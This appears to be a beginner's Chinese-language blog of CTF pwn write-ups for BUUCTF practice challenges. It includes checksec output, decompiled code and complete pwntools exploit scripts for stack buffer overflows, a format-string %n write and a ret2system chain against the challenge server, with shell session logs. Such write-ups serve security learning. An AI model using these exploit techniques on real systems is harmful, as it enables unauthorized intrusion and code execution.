



初学者。。用于记录学习过程与笔记。

## test_your_nc

先用`checksec`检查下：



1. **RELRO**  
   `Partial` → GOT 表可写（易被 `GOT overwrite` 攻击）。`Full` 时 GOT 只读更安全。

2. **STACK CANARY**  
   `未启用` → 栈溢出无检测，可直接覆盖返回地址。启用后栈破坏会崩溃。

3. **NX**  
   `开启` → 栈/堆不可执行。

4. **PIE**  
   `开启` → 代码地址随机化，需泄露地址。关闭则地址固定。

5. **RPATH/RUNPATH**  
   `未设置` → 无额外库路径，降低劫持风险。

6. **Symbols**  
   `64` → 保留符号（函数名等），易逆向分析。

7. **FORTIFY**  
   `未启用` → 无堆栈保护。

再拖到`IDA Pro`里看看:



````c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
````

直接调用`system()`函数进入shell，所以直接使用`netcat`连接靶机：

````bash
nc ip port
````



发现直接连接上了，根目录就有flag，得到：`flag{b6588539-d35f-4fde-b2b9-8c56d7fb66bd}`

## rip

`checksec`分析：

````bash
❯ checksec --file=./pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable   FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1    ./pwn1

````

`IDA Pro`分析主函数：

````c

int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
````

同时注意到`fun()`函数：

````c
int fun()
{
  return system("/bin/sh");
}
````

`gets()`函数不检查输入长度，所以可利用其来溢出`s`，到达shellcode也就是`fun()`。

````asm
.text:0000000000401186
.text:0000000000401186 ; Attributes: bp-based frame
.text:0000000000401186
.text:0000000000401186 ; int fun()
.text:0000000000401186                 public fun
.text:0000000000401186 fun             proc near
.text:0000000000401186 ; __unwind {
.text:0000000000401186                 push    rbp
.text:0000000000401187                 mov     rbp, rsp
.text:000000000040118A                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401191                 call    _system
.text:0000000000401196                 nop
.text:0000000000401197                 pop     rbp
.text:0000000000401198                 retn
.text:0000000000401198 ; } // starts at 401186
.text:0000000000401198 fun             endp
````

注意到shellcode位于`40118A`，所以我们要让其执行这个地址的命令。

那么如何溢出呢？首先要填满`s[15]`，也就是15个字节，与此同时，还需要添加8个字节来顶掉基指针寄存器`rbp;`：

> rbp (Base Pointer Register) 是x86-64架构中的基指针寄存器,用于标记当前函数栈帧的起始位置
> 每个函数调用都会在栈上保存前一个函数的RBP值 ,
> 这个保存操作占用固定的8字节空间,
> 在缓冲区溢出攻击中，这8字节是覆盖返回地址前必须越过的最后一个屏障,
> x86架构是4字节，x64架构是8字节 → 这是64位系统的关键特征

所以构建payload：

````python
payload = b'q'*23 + p64(0x40118A)
````

先发送23个q使其溢出，后面接上shellcode`fun()`中终端函数的地址，尝试进入shell。


> `p64()` 是 Python 中 **pwntools** 库的核心函数，用于将整数转换为**64位小端序字节序列**。在 pwn 漏洞利用中，它用于精确构造内存地址格式的 payload。

最终程序：

````python
from pwn import *

host = "node5.buuoj.cn"
port = 25983
sh = remote(host, port)
payload = b'q'*23 + p64(0x40118A)
sh.sendline(payload)
sh.interactive()
````

详解：

新建一个`sh`对象，用于连接靶机以及操作靶机；

> **remote()函数**：pwntools的核心函数，用于创建TCP连接
`sendline()`向靶机发送payload;

> **sendline()**：发送数据并在末尾自动添加 `\n`（0x0A）
> 重要：因为原程序使用 `gets()` 函数，该函数以 `\n` 或 EOF 为结束标志

>**interactive()**：作用：在攻击成功后进入交互式shell

**发送内容**：

````
qqqqqqqqqqqqqqqqqqqqqqq + \x8A\x11\x40\x00\x00\x00\x00\x00 + \n
````

执行，获取到了shell，获得flag：

````
PS C:\Users\root> & "D:/Program Files/python/python.exe" d:/CTF/项目/BUU/pwn/rip/hack.py
[x] Opening connection to node5.buuoj.cn on port 25983
[x] Opening connection to node5.buuoj.cn on port 25983: Trying 117.21.200.176
[+] Opening connection to node5.buuoj.cn on port 25983: Done
[*] Switching to interactive mode
ls

bin
boot
dev
etc
flag
home
...
var
cat flag
flag{7f35d897-a5fd-4505-84a7-2990b740f2d9}
````

## warmup_csaw_2016

先`checksec`:

````bash
❯ checksec --file='/home/wuko233/Desktop/pwn/warmup_csaw_2016/warmup_csaw_2016'
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               2               /home/wuko233/Desktop/pwn/warmup_csaw_2016/warmup_csaw_2016
````

分析程序：

````c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
````

````c
int sub_40060D()
{
  return system("cat flag.txt");
}
````

和上面一道题差不多，还是利用`gets()`溢出，64+8=72，shellcode是`sub_40060D`，地址就位于`0x40060D`。

所以，payload就是：

````python
payload = b'q'*72 + p64(0x40060D)
````

完整：

````python
from pwn import *

host = "node5.buuoj.cn"
port = 29765
sh = remote(host, port)
payload = b'q'*72 + p64(0x40060D)
sh.sendline(payload)
sh.interactive()
````
直接得到了flag：

````
[*] Switching to interactive mode
>flag{110426c9-307c-4a2e-b763-73e47ca4a4fb}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
````

不过这道题其实应该不是这样做的。。因为主函数里`sprintf(s, "%p\n", sub_40060D)`是用来打印出shellcode函数地址的，也就是泄露地址，但是它的`PIE`未启用，也就是每次的地址都是固定的，这个语句就毫无意义了。

所以应该是这样的：

`PIE`启用，每次运行时函数地址都是随机的，需要攻击者通过`sprintf(s, "%p\n", sub_40060D)`来获取shellcode函数地址，再通过`gets()`溢出进而执行shellcode。

按照这个思路，再写一个脚本：

````python
from pwn import *

host = "node5.buuoj.cn"
port = 29765

sh = remote(host, port)
print(sh.recvuntil("WOW:"))  # 接收直到出现"WOW:"
location = sh.recvline().strip().decode("UTF-8") #获取到字节串，转化为字符串并去除\n
print("函数地址：" + location)
payload = b'a'*72 + p64(int(location, 16))  #p64()需传入int，所以把地址字符串转换为16进制的int
sh.sendline(payload)
sh.interactive()
````

得到flag：

````
d:\CTF\项目\BUU\pwn\warmup_csaw_2016\hack.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(sh.recvuntil("WOW:"))
b'-Warm Up-\nWOW:'
函数地址：0x40060d
[*] Switching to interactive mode
>flag{110426c9-307c-4a2e-b763-73e47ca4a4fb}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to node5.buuoj.cn port 29765
````

## ciscn_2019_n_1 （改值）

和上面一样：

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols        No    0               1               /home/wuko233/Desktop/pwn/
```

`main`:

```cpp
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  func();
  return 0;
}
```

`func`:

```cpp
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

分析一下，shellcode必须满足v2值为11.28125，所以需要通过`gets()`溢出来改变v2的值。

注意到：

```cpp
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]
```

在`v1`的定义下就是`v2`，所以可以溢出v1来修改v2的值。

v1长度为44，v2长度为4(float)。(byte)

这里补个笔记，长度判断也可以靠后面反编译的注释：

v1起始点：`rbp-30h`

v2起始点：`rbp-4h`

所以v1长度就是`0x30(48)-0x4(4)=44`

溢出v1还是和上面一样：`'q'*44`

接下来的主要问题是给v2赋值11.28125：

肯定是不能直接传进这个数的，因为它是浮点，我们需要传入字节，所以可以用`struct`库：

> Struct 模块用于在字节字符串和 Python 原生数据类型之间进行转换。它可以将 Python 数据打包成二进制数据，或将二进制数据解包成 Python 数据。

> struct.pack() 函数可以将数据打包成二进制格式。格式字符串指定了数据的类型和顺序。

```python
import struct

num = 11.28125
num2byte = struct.pack("f", num) # float类型转byte
print(f"{num} 转换结果：{num2byte}")

# 11.28125 转换结果：b'\x00\x804A'
```

综上可得payload:

```python
num = 11.28125
num2byte = struct.pack("f", num)
print(f"{num} 转换结果：{num2byte}")
payload = b'q'*44 + num2byte
```

总体：

```python
from pwn import *
import struct

host = "node5.buuoj.cn"
port = 25333

sh = remote(host, port)

num = 11.28125
num2byte = struct.pack("f", num)
print(f"{num} 转换结果：{num2byte}")
payload = b'q'*44 + num2byte
print(sh.recvuntil("Let's guess the number."))
sh.sendline(payload)
sh.interactive()
```

拿到flag：

```
b"Let's guess the number."
[*] Switching to interactive mode

flag{3214184b-a04b-419e-b114-52e08022514e}
[*] Got EOF while reading in interactive
```

主包主包，float转byte还是太麻烦，有没有更**简单粗暴**一点的方法？有的兄弟，有的：

```cpp
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
```

既然你源码里有`system("cat /flag")`，那我们可不可以直接覆盖到这个shellcode的地址，直接执行shellcode？答案是肯定的！

先来查查shellcode地址：

```asm
.text:00000000004006BE                 mov     edi, offset command ; "cat /flag"
```

得到地址：`0x4006BE`；

已知v1长44，v2长4，旧rbp长8，那我问你，需要顶掉多少byte？没错，也就是44+4+8=56！

再来构建payload:

```python
payload = b'q'*56 + p64(0x4006BE)
```

EZ，拿到了！

```
b"Let's guess the number."
[*] Switching to interactive mode

Its value should be 11.28125
flag{47e47e55-73c9-4c29-98cc-8e3e879669ec}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
```

完整脚本：

```python
from pwn import *

host = "node5.buuoj.cn"
port = 26748

sh = remote(host, port)

payload = b'q'*56 + p64(0x4006BE)
print(sh.recvuntil("Let's guess the number."))
sh.sendline(payload)
sh.interactive()
```

## pwn1_sctf_2016 (fgets())

```
[*] '/home/wuko233/Projects/pwn/pwn1_sctf_2016/pwn1_sctf_2016'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

32位

`main`

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```

`vuln`

```cpp
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

(cpp反编译真难看。。)

注意到其中定义v4、v6分别为`you`、`I`，同时在`replace`函数中被调用（v3），所以猜测应该是替换`input`内容中的`I`为`you`。

`fgets()`内容缓冲区长度为32；`s`位于3C（esp+1Ch ebp-3Ch），也就是3*16+12=60字节长度；32位程序（Arch:i386-32-little），所以返回地址长度是4；

需要通过溢出fgets()来覆盖s和返回地址，但是fgets()缓冲区只有32，我们却需要60+4=64，该怎么办呢？

这时就可以利用`replace()`了！一个`I`1长度换3长度的`you`，我们最多就可以得到32*3=109的长度了！但我们只需要64长度，64/3=21余1:。

所以先构建payload的一部分：

```python
payload = b'I' * 21 + b'q'
```

这样就实现了覆盖s与返回地址了，接下来就差shellcode了：

`get_flag`

```cpp
int get_flag()
{
  return system("cat flag.txt");
}
```

```asm
.text:08048F0D ; int get_flag()
.text:08048F0D                 public get_flag
.text:08048F0D get_flag        proc near
.text:08048F0D ; __unwind {
.text:08048F0D                 push    ebp
.text:08048F0E                 mov     ebp, esp
.text:08048F10                 sub     esp, 18h
.text:08048F13                 mov     dword ptr [esp], offset command ; "cat flag.txt"
.text:08048F1A                 call    _system
.text:08048F1F                 leave
.text:08048F20                 retn
.text:08048F20 ; } // starts at 8048F0D
.text:08048F20 get_flag        endp
```

注意到shellcode地址为`8048F13`，所以构建后半部分shellcode:

```python
payload += p32(0x8048F13)
```

得到最终脚本：

```python
from pwn import *

host = "node5.buuoj.cn"
port = 29992

sh = remote(host, port)

payload = b'I' * 21 + b'q'
payload += p32(0x8048F13)
sh.sendline(payload)
sh.interactive()
```

拿下！

```bash
PS D:\B23\VSC\H5\koishi.521514.xyz> & "D:/Program Files/python/python.exe" d:/CTF/项目/BUU/pwn/pwn1_sctf_2016/hack.py
[x] Opening connection to node5.buuoj.cn on port 29992
[x] Opening connection to node5.buuoj.cn on port 29992: Trying 117.21.200.176
[+] Opening connection to node5.buuoj.cn on port 29992: Done
[*] Switching to interactive mode
flag{87ce8c15-cb0e-4149-8980-f5ca1a9e1573}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
```

## jarvisoj_level0 (read())

```
[*] '/home/wuko233/Projects/pwn/jarvisoj_level0/level0'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}

size_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

注意到`read()`函数，可以溢出，`buf`缓冲区大小为128，64位程序，所以返回地址长度8。

构建前半部分payload:

```python
payload = b'q'*(128 + 8)
```

注意到shellcode`callsystem`:

```asm
.text:0000000000400596 ; int callsystem()
.text:0000000000400596                 public callsystem
.text:0000000000400596 callsystem      proc near
.text:0000000000400596 ; __unwind {
.text:0000000000400596                 push    rbp
.text:0000000000400597                 mov     rbp, rsp
.text:000000000040059A                 mov     edi, offset command ; "/bin/sh"
.text:000000000040059F                 call    _system
.text:00000000004005A4                 pop     rbp
.text:00000000004005A5                 retn
.text:00000000004005A5 ; } // starts at 400596
.text:00000000004005A5 callsystem      endp
```

地址为`40059A`，所以后半部分为：

```python
payload += p64(0x40059A)
```

完整：

```python
from pwn import *

host = "node5.buuoj.cn"
port = 25201

sh = remote(host, port)

payload = b'q'*(128 + 8)
payload += p64(0x40059A)
sh.sendline(payload)
sh.interactive()
```

拿下！

```bash
PS C:\Users\root> & "D:/Program Files/python/python.exe" //wsl.localhost/Debian/home/wuko233/Projects/pwn/jarvisoj_level0/hack.py
[x] Opening connection to node5.buuoj.cn on port 25201
[x] Opening connection to node5.buuoj.cn on port 25201: Trying 117.21.200.176
[+] Opening connection to node5.buuoj.cn on port 25201: Done
[*] Switching to interactive mode
Hello, World
ls
bin
boot
dev
etc
flag
flag.txt
...
tmp
usr
var
cat flag.txt
flag{ab0c2d86-23b2-4460-b29f-a7d2975812d6}
```

## [第五空间2019 决赛]PWN5 (字符串格式化漏洞)

```
[*] '/home/wuko233/Projects/pwn/[第五空间2019 决赛]PWN5/pwn'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

注意到：

**RELRO:      Partial RELRO**

**Stack:      Canary found**

这很坏了，开启了栈保护（Canary），传统的栈溢出覆盖返回地址的方式会被检测到，导致程序终止。因此需要先泄露Canary值，或者寻找其他漏洞点。

```c
{
  unsigned int v1; // eax
  int result; // eax
  int fd; // [esp+0h] [ebp-84h]
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  unsigned int v6; // [esp+78h] [ebp-Ch]
  int *v7; // [esp+7Ch] [ebp-8h]

  v7 = &a1;
  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 0x63u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v6 )
    sub_80493D0();
  return result;
}
```

注意到`printf(buf);`，直接输出用户输入内容，这里是一个**字符串格式化漏洞**：

[CTF Wiki - Format String](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

[PWN学习之格式化字符串及CTF常见利用手法](https://www.freebuf.com/geek/391911.html)

当程序使用 `printf(user_input)` 时，如果用户输入包含格式化字符（如 `%s`, `%x`, `%n`），会触发以下风险：

- `%s`：读取任意地址数据

- `%x`：泄漏栈数据

- `%n`：向任意地址写入数据（写入已输出的字符数）

用`netcat`连一下：

```bash
nc node5.buuoj.cn 26814
```

输入`AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p`，获取printf栈上14个参数：

| 返回地址 | 旧ebp | 格式化字符串指针 | [参数1] | [参数2] | ... |

也就是输入的内容buf指针往后14个参数，得到：

```
Hello,AAAA.0xff94c828.0x63.(nil).0xff94c84e.0x3.0xc2.0xf7de691b.0xff94c84e.0xff94c94c.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252eDR������your passwd:
```

注意到`0x41414141`出现在第10个，说明输入字符串的起始地址位于栈上指针后第10个参数的位置，因此可以使用 `%10$` 系列格式化符来访问和操作这个位置。


```python
from pwn import *

host = "node5.buuoj.cn"
port = 29393

context.log_level = 'debug'

# p = process('./pwn')
sh = remote(host, port)

# rand_address_start = 0x804C044

payload = b""
payload += p32(0x804C044)

payload += b'%10$n'

sh.sendlineafter('your name:', payload)
rec_data = sh.recvuntil(b"your passwd:")
sh.sendline(str(4))

sh.interactive()
```

32位，所以长度是4，原理就是：

随机数生成在`0x804C044`，所以直接向这个地址写入，就可以覆盖这个随机数：

```python
payload += p32(0x804C044) 

payload += b'%10$n' # 向第10个位置写入4
```

然后发送4就得到flag了qwq


## jarvisoj_level2

```sh
[*] '/home/wuko233/Projects/pwn/jarvisoj_level2/level2'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 256u);
}
```

读256，但是缓冲区只有136，同时居然还用着system()...

```
.plt:08048320 ; int system(const char *command)
```

和[jarvisoj_level0](#jarvisoj_level0-read)一样，read()漏洞。

shellcode在`0804A024`：

```
.data:0804A024 hint            db '/bin/sh',0
```

```python
from pwn import *

host = "node5.buuoj.cn"
port = 26567

context.log_level = 'debug'

sh = remote(host, port)

payload = b'q'*(136 + 4)
payload += p32(0x8048320) # _system()
payload += p32(0)
payload += p32(0x804A024) # str: bin/sh
sh.recvuntil(b"Input:")
sh.sendline(payload)
sh.interactive()
```

利用system函数执行bin/sh，其中0是指定的system()的返回地址，因为要进shell，注定不会返回，所以可以瞎写一串数字，后接传入的参数。

---